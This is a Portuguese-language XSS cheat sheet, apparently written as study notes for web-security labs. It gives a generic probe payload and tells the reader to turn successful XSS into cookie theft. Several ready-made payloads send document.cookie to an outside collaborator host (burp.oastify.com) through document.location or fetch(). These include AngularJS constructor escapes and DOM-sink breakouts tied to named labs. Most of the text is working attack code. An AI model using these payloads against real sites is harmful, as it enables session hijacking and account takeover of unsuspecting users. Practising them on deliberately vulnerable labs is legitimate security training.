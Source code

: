 # XSS - Cross-Site Scripting

Se você ver um campo de busca (search) ou um seção de comentários, busque por XSS.

Se tudo estiver sendo encodado, provavelmente o parâmetro não está vulnerável a XSS.

Payload genérico para XSS:
```
<>\'\"<script>{{7*7}}$(alert(1)}"-prompt(69)-"fuzzer
```

<br>

Encontrou XSS?

Adapte o payload para roubar o cookie da vítima, por exemplo:

Em vez:
```
<script>alert(1)</script>
```

Teste com:
```
<script>document.location='http://burp.oastify.com/?c='+document.cookie</script>
```

> [!TIP]
> Pratice essa adaptação de payload nos labs. Se o cookie estiver com a flag HTTPOnly ativada, o payload com `document.cookie` não vai funcionar. Remova esse trecho e teste enviando uma request qualquer para o Collaborator para ver se a estrutura está correta.

<br>

## Laboratórios

**DOM XSS in document.write sink using source location.search inside a select element**
```
storeId=test"></select><script>alert(1)</script>
```

Adapted version:
```
"></select><script>document.location='http://burp.oastify.com/?c='+document.cookie</script>
```

<br>

**DOM XSS in AngularJS expression with angle brackets and double quotes HTML-encoded**
```
{{constructor.constructor('alert(1)')()}}

OU

{{$on.constructor('alert(1)')()}}
```

Adapted version:
```
{{constructor.constructor('document.location="http://burp.oastify.com?c="+document.cookie')()}}
```

<br>

**Reflected DOM XSS**
```
\"-alert()}//
```

Adapted version:
```
\"-fetch('http://burp.oastify.com?c='+btoa(document.cookie))}//
```
